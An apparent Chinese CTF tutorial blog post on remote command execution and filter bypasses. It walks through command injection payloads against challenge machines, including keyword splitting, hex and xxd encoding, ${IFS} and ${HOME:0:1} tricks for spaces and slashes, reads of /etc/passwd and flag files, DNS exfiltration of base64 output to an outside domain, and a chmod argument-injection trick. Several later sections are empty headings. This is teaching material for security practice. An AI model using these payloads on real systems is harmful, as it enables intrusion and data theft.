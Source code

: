 +++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux",
    "CTF"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过
![](image.png)
## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令
### 命令分隔符绕过
- `%0a`
- `%0d`
### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题
![](image-4.png)
Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```
![](image-5.png)
### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题
![](image-6.png)
Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```
![](image-7.png)
### 空格绕过
- 使用 `${IFS}`
- 使用 `<` 输入重定向
- `{cat,/etc/passwd}`
- `ls%09-al%09/home` 制表符ASCII码
- 如果能回现报错，就可以使用`$(<filename)`
![](image-3.png)

例题
![](image-1.png)
Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```
![](image-2.png)

### 综合命令注入练习
![](image-8.png)
先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```
![](image-9.png)
![](image-10.png)
读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```
![](image-11.png)
直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```
![](image-12.png)
![](image-13.png)
## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
### 例题
来源 -> [x3ctf writeup](http://blog.whale-tw.com/2025/01/27/x3ctf-2025/#submission)
![](image-14.png)
所有上传的文件都会被修改权限为所有用户不可读（root除外）
- 1. 上传 `.txt` 文件，此文件不在 `*` 内，不会被修改权限
- 2. 上传 `--reference=.txt` 文件 ，把 `flag.txt` 的权限修改为与 `.txt` 相同的可读权限
## 代码注入（Code Injection）
### SQL注入
### `eval()`

## 服务器端模板注入（SSTI）
### SSTI注入

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）
### 本地文件包含

### 远程文件包含
- 1. `data://` 伪协议

   例题
   ![](image-15.png)
- 2. `php://input`